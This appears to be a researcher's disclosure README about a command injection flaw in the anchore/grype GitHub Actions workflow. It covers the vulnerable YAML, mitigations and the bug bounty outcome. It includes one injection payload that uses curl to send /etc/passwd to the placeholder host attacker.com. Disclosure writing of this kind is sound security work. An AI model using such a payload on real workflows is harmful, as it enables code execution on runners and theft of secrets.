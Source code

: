 
# GitHub Actions RCE Vulnerability (Informative Report)

This repo documents a **command injection vulnerability** identified in the GitHub Actions workflow of the [`anchore/grype`](https://github.com/anchore/grype) repository. The bug was responsibly reported to GitHub via HackerOne.

Although the report was marked **Informative** due to scope policy, the vulnerability path was technically valid and involved unsafe user input passed into an unvalidated GitHub Actions workflow.

## 🐞 Summary

**Repository Affected:** `anchore/grype`

**Vulnerability Type:** Command Injection via Improper Input Validation (CWE-20 / CWE-94)

**Impact:** The vulnerability could allow an attacker to execute arbitrary commands on GitHub-hosted runners and potentially exfiltrate environment secrets.

**Disclosure:** Submitted to GitHub Bug Bounty via HackerOne. Closed as Informative due to scope rules.

## 📄 Vulnerability Details

### 🧠 Vulnerable File
```
.github/workflows/update-anchore-dependencies.yml
```

### 🔥 Vulnerable Input Path
```yaml
workflow_dispatch:
  inputs:
    repos:
      description: "List of dependencies to update"
      required: true
      type: string

jobs:
  update:
    steps:
      - uses: anchore/workflows/.github/actions/update-go-dependencies@main
        with:
          repos: ${{ github.event.inputs.repos }}
```

This input is passed **unsanitized** into a GitHub action. If used in a shell or CLI context in the downstream `update-go-dependencies` action, it could result in remote code execution (RCE).

## 💣 PoC (Theoretical Injection Payload)

```
"; curl http://attacker.com --data @/etc/passwd; echo "
```

## 📸 Screenshots

See `/screenshots` folder for proof:
- Vulnerable `workflow_dispatch` input path
- Injection location traced
- Action file existence check

## 🔐 Security Recommendations

- Escape user input with `${{ toJSON(...) }}` or quote usage in shell
- Validate `repos` against a strict regex (e.g., `^[a-zA-Z0-9._/-]+$`)
- Avoid passing untrusted values into scripts or shell commands

## 📬 Disclosure Outcome

This issue was reported via the [GitHub Bug Bounty Program](https://bounty.github.com) on HackerOne.

> ✅ The vulnerability was **acknowledged as valid** and marked **“Informative”**, meaning the technical issue was real, but not eligible for bounty due to scope limitations.

### 📨 Summary of GitHub’s Response:
```
Thank you for your report. The workflow you analyzed belongs to a third-party project (anchore/grype), which is outside the paid scope of GitHub's bounty program. However, your report is informative and demonstrates a valid risk pattern.
```

## 📎 Report Outcome

- **Platform:** HackerOne → GitHub Program
- **Report ID:** #3214599 (Closed as Informative)
- **GitHub Message:** Out of paid bounty scope + marked as informative
- **Maintainers invited to patch via `security.md` link**

## 🧠 Notes

This was a valid issue from a CI/CD and DevSecOps perspective. The techniques used here are applicable to many public GitHub Actions projects.

**Researcher:** Abrar

For educational use only. Always follow responsible disclosure practices.
